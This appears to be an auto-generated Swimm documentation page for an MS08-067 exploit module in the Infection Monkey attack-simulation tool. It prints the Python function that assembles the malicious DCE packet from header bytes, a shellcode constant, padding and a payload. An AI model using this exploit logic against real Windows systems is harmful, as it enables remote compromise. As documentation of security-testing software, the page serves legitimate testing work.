

# Introduction

This document walks through the main business logic of the `_build_dce_packet` function in `monkey/infection_monkey/exploit/win_ms08_067.py`. The function is responsible for constructing the malicious DCE packet used in the MS08-067 exploit. We focus on the core steps of packet construction, ignoring validation, data retrieval, and error handling.

We will cover:

1. What are the main steps in building the DCE packet?
2. How is the payload integrated into the packet?
3. Why is the packet constructed in this specific sequence?


1. Check if the target OS is Windows XP; if so, return a prebuilt exploit packet.
2. Start constructing the malicious DCE packet by adding the initial header bytes.
3. Append exploit shellcode to the packet.
4. Pad the packet with repeated bytes to achieve the required structure.
5. Add additional exploit-specific fields to the packet.
6. Insert the payload into the packet after the shellcode and padding.
7. Finalize the packet by appending trailing fields required for the exploit.
8. Return the fully constructed DCE packet for use in the MS08-067 exploit.



# Main steps in building the DCE packet

The function `_build_dce_packet` performs the following high-level actions:

<SwmSnippet path="monkey/infection_monkey/exploit/win_ms08_067.py" line="150" repo-id="Z2l0aHViJTNBJTNBYmFja2VuZC1zd2ltbSUzQSUzQXJpY2FyZG9sb3Blemc=">

---

- Checks if the target OS is Windows XP and returns a prebuilt packet if so.
- Constructs the malicious DCE packet by concatenating specific byte sequences.
- Integrates the exploit shellcode and payload into the packet.
- Pads the packet with repeated bytes to reach the required structure.
- Appends additional exploit-specific fields to finalize the packet.

```
    def _build_dce_packet(self):
        if self.os_version == WindowsVersion.WindowsXP:
            return XP_PACKET
        # Constructing Malicious Packet
        dce_packet = '\x01\x00\x00\x00'
        dce_packet += '\xd6\x00\x00\x00\x00\x00\x00\x00\xd6\x00\x00\x00'
        dce_packet += SHELLCODE
        dce_packet += '\x41\x41\x41\x41\x41\x41\x41\x41'
        dce_packet += '\x41\x41\x41\x41\x41\x41\x41\x41'
        dce_packet += '\x41\x41\x41\x41\x41\x41\x41\x41'
        dce_packet += '\x41\x41\x41\x41\x41\x41\x41\x41'
        dce_packet += '\x41\x41\x41\x41\x41\x41\x41\x41'
        dce_packet += '\x41\x41\x41\x41\x41\x41\x41\x41'
        dce_packet += '\x41\x41\x41\x41\x41\x41\x41\x41'
        dce_packet += '\x41\x41\x41\x41\x41\x41\x41\x41'
        dce_packet += '\x00\x00\x00\x00'
        dce_packet += '\x2f\x00\x00\x00\x00\x00\x00\x00\x2f\x00\x00\x00'
        dce_packet += self._payload
        dce_packet += '\x00\x00\x00\x00'
        dce_packet += '\x02\x00\x00\x00\x02\x00\x00\x00'
        dce_packet += '\x00\x00\x00\x00\x02\x00\x00\x00'
        dce_packet += '\x5c\x00\x00\x00\x01\x00\x00\x00'
        dce_packet += '\x01\x00\x00\x00'

        return dce_packet
```

---

</SwmSnippet>

# Integration of the payload

The payload is inserted into the packet after the shellcode and padding. This ensures that the exploit delivers the intended code to the target system as part of the attack sequence.

# Sequence of packet construction

The packet is built in a specific order to match the expected format for the MS08-067 vulnerability. Each segment (header, shellcode, padding, payload, and trailing fields) is added to ensure the exploit is effective against the target system.

This approach ensures the exploit packet is correctly structured for the vulnerability, maximizing the chance of successful exploitation.

This is an auto-generated document by Swimm 🌊 and has not yet been verified by a human

<SwmMeta version="3.0.0"><sup>Powered by [Swimm](https://app.swimm.io/)</sup></SwmMeta>
